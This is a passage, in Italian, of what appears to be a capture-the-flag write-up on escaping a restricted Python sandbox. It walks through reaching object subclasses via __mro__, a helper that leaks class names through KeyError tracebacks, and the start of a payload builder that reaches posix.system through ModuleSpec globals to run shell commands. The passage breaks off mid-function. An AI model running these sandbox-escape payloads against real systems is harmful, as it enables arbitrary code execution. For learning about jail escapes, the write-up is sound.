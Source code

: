 Qui entra in gioco `__mro__`. Ogni classe in Python ha l’attributo `__mro__`, la *method resolution order*. È una tupla di classi che Python esplora quando cerca attributi. Per esempio, usando `c` alias `getattr`:

```python
>>> getattr.__class__
<class 'builtin_function_or_method'>
>>> getattr.__class__.__mro__
(<class 'builtin_function_or_method'>, <class 'object'>)
```

Quindi `getattr.__class__.__mro__[-1]` ci dà `object`, e poi `object.__subclasses__()` ci dà l’intera lista di sottoclassi, inclusa `ModuleSpec`.

C’è però ancora un ostacolo:

```
>>> len(getattr.__class__.__mro__[-1].__subclasses__())
286
```

Come facciamo a sapere dove si trova `ModuleSpec`? Non abbiamo accesso a `print`, quindi non possiamo stamparle una per una. Nei test locali abbiamo avuto successo con il seguente approccio:

```python
def probe_payload(i: int) -> str:
    """
    Raises KeyError with the name of object.__subclasses__()[i],
    leaking the class name via traceback.
    """
    NAME = str_expr("__name__")
    subs = subclasses_list_expr()
    idx  = n_expr(i)
    return f"({define_zero()},{{}}[c({subs}[{idx}],{NAME})])"
```

L’idea è prendere `subclasses()[i]` e usare quello come chiave per accedere a un dizionario vuoto. Questo lancerà una KeyError e farà filtrare il nome della classe. Abbiamo testato localmente usando la utility `process` di `pwntools`.
Tuttavia, provando in remoto non vedevamo nulla perché mancava `stderr`.
Ci siamo ricordati del Dockerfile, abbiamo costruito l’immagine e testato il `probe` in quel container, dove potevamo vedere i log su `stderr`. La logica era che l’immagine fosse la stessa, quindi l’indice di `ModuleSpec` non sarebbe cambiato.

Abbiamo sondato gli indici tra `0` e `200` e trovato `ModuleSpec` attorno a indice `100`.

#### RCE

Ora che abbiamo accesso a `ModuleSpec` possiamo accedere a `__globals__` e a `sys` ed eseguire comandi arbitrari di shell:

```python
def exec_payload(idx: int, cmd: str) -> str:
    """
    Execute via: ModuleSpec.__init__.__globals__['sys'].modules['posix'].system(cmd)
    """
    subs = subclasses_list_expr()
    INIT = str_expr("__init__")
    GLOB = str_expr("__globals__")
    SYS  = str_expr("sys")
    MODS = str_expr("modules")
    POSX = str_expr("posix")
    SYSF = str_expr("system")
    CMD  = str_expr(cmd)
    IDX  = n_expr(idx)

    sys = f"(c(c({subs}[{IDX}],{INIT}),{GLOB})[{SYS}])"
    posix = f"(c({sys},{MODS})[{POSX}])"
    return (
```